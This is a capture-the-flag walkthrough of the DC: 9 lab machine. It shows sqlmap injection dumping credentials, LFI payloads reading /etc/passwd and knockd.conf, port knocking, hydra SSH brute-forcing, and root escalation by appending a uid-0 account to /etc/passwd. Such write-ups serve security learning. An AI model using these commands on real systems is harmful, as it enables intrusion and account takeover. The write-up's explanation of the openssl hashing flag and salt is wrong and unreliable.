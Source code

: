 # DC: 9

### Nmap Scan

```bash
PORT   STATE    SERVICE REASON              VERSION
22/tcp filtered ssh     port-unreach ttl 64

80/tcp open     http    syn-ack ttl 64      Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

---

### Website

![website.png](./Images/website.png)

---

### Hidden Directory → Nothing Useful

```bash
/welcome.php
/results.php             
/logout.php              
/config.php              
/manage.php              
/session.php  
/search.php
/index.php
```

- The `search.php` looks interesting
- we can try injection attack on search parameter

![search-para.png](./Images/search-para.png)

---

### Successful SQL Injection

- There is a directory called → `search.php`

```sql
sqlmap -r request.txt  --dbs --batch
```

![request-burp.png](./Images/request-burp.png)

![sqlmap.png](./Images/sqlmap.png)

```sql
sqlmap -r request.txt  -D Staff -T Users --dump  

sqlmap -r request.txt -D users --dump
```

![sqli-users.png](./Images/sqli-users.png)

- All the username & password

```
RocksOff
BamBam01
UrAG0D!
4sfd87sfd1
Ilovepeepee
Hawaii-Five-0
B8m#48sd
Passw0rd
468sfdfsd2
3kfs86sfd
3248dsds7s
smellycats
yN72#dsd
ILoveRachel
YR3BVxxxw87
TC&TheBoyz
Pebbles
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

![admin-pass.png](./Images/admin-pass.png)

```
barneyr
bettyr
chandlerb
fredf
janitor
janitor2
jerrym
joeyt
julied
marym
monicag
phoebeb
rachelg
rossg
scoots
tomc
wilmaf
```

---

### Crack password

```
username = admin
password = transorbital1
```

![crack-pass.png](./Images/crack-pass.png)

---

### Local File Inclusion (LFI)

- First login as admin
- `/manage.php`  → is Vulnerable to LFI

```bash
?file=../../../../../../etc/passwd 
```

![LFI.png](./Images/LFI.png)

```bash
[options]
        UseSyslog

[openSSH]
        sequence    = 7469,8475,9842
        seq_timeout = 25
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9842,8475,7469
        seq_timeout = 25
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

```

---

### Port Knocking

- We know that nmap scan show SSH state is filtered
- so it indicate to **`Port Knocking`**
- we can use LFI payoad

```bash
?file=../../../../../../etc/knockd.conf
```

![port-knocing.png](./Images/port-knocing.png)

- Firstly we need to install tools

```bash
sudo apt install knockd
```

```bash
knock 10.176.154.203 7469 8475 9842
```

- We successfully hit the target

![open-ssh.png](./Images/open-ssh.png)

- Now SSH is open so we can try to brute-force
- We have list of users and passwords to brute-force
- Here we use hydra to brute-force to SSH

```bash
hydra -L users.txt -P passwd.txt -I 10.176.154.203 ssh
```

- **OUTPUT:**

```
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

---

### SSH Login

```bash
ssh chandlerb@10.176.154.203   
```

![success-ssh.png](./Images/success-ssh.png)

- user → chandlerb is not so useful
- Try another users
- user `janitor` has list of passwords for other users

![janitor.png](./Images/janitor.png)

---

### Privilege Escalation

- Save this password and try another brute-force

```bash
hydra -L user.txt -P pass.txt -t 4 10.176.154.203 ssh  
```

![hydra.png](./Images/hydra.png)

- login with user **`fredf`**
- And user **`fredf`**  can run →  `/opt/devstuff/dist/test/test` as root

![fred.png](./Images/fred.png)

- this test binary file can read from one file and append to another.

![perm.png](./Images/perm.png)

---

### **Root Privilege**

- First we gonna create new user with root privilege
- We use openssl passwd method
    - `openssl passwd` — hash a password
    - `1` — use **SHA-512-based crypt** algorithm (modern and secure)
    - `salt ironman`  — use `"salt"` as the salt
    - `iloveyou3000` — the actual password to hash

> **NOTE: Make sure you are in `/tmp` directory**
> 

```bash
openssl passwd -1 -salt ironman iloveyou3000
```

![root-payload.png](./Images/root-payload.png)

- Then we need to create new user that hash a root privilege.

```bash
## Change the username and hash according to your payload  
ironman:$1$ironman$PGr64JjNO62RHP5ezmgVq1:0:0:root:/root:/bin/bash
```

- We are ready to go
- Send this new user to payload `/etc/passwd`

```bash
sudo /opt/devstuff/dist/test/test payload.txt /etc/passwd
```

- check the payload is appended to passwd file

```bash
su ironman
```

![root.png](./Images/root.png)